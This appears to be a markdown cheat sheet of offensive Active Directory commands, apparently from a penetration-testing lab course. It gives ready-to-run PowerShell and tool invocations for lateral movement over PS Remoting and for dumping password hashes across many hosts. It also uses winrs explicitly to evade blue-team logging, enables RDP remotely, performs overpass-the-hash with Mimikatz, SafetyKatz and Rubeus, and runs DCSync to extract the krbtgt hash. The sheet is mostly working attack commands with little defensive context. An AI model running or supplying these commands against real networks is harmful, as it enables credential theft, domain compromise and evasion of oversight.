 # Powershell Remoting
PS Remoting is a feature in windows server just like ssh in linux where administrators can perform tasks on remote machines without having to physically be present at each machine. It uses Windows Remote Management(WinRM) port 5985 http and 5986 https.
# Command to enable PSRemoting
```
Enable-PSRemoting -Force 
```
# Command to enable PSRemoting on remote machine
```
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```

# IF we have administrative access on another machine after use hunting
```
Enter-PSSession dcorp-adminsrv
```
OR
```
$session = New-PSSession -ComputerName dcorp-adminsrv
Enter-PSSession -Session $session
```
# TO execute commands parallely on many machines
If we have privilge to execute commands on many machines use below. Here create a file with names of computers to run commands on.
```
Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <server-lists>)
```
# To execute scripts prallely on many machines
Similarly as above create a file with names of computers/servers to run commands on.
```
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <server-lists>)
```
# To evade logging by blue team we can use winrs
```
winrs -remote:<server-name> -u:server1\administrator -p:Pass@123 hostname
```
# enable rdp access on another computer using scriptblock
```
Invoke-Command -ScriptBlock {Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
} -ComputerName dcorp-adminsrv
```

# Over Pass The Hash

Here, the needed aes256key, rc4 hash all can be got using mimikatz or safetykatz. Here, overpass the hash using any of the below techniques uses logon type 9 which means running whoami still shows as student1 or default username but we can access the remote resource like the domain controller simply by doing ```winrs -r:dcorp-dc cmd```

## Using Mimikatz( Needs elevation (Run as administrator))
```
Invoke-Mimikatz -Command '"sekurlsa::pth/user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'
```
## Using safetykatz( Needs elevation (Run as administrator))
```
SafetyKatz.exe "sekurlsa::pth/user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```
## Using rubeus(doesn't need elevation)
```
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
## Using rubeus(needs elevation)
```
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

# DCSync(Needs Domain Admin Privilege by default)
 DCSync is a late stage kill chain attack this means an attacker has hold of a user who has Active Directory Domain replication rights, domain replication is the method of updating objects from one DC to another DC and during this process the DC returns replication data to the requester including password hashes.

 ## DCSync to extract krbtgt hash for us domain
 ```
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
 ```
 ## DCSync to extract krbtgt hash for us domain using safetykatz
 ```
 SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
 ```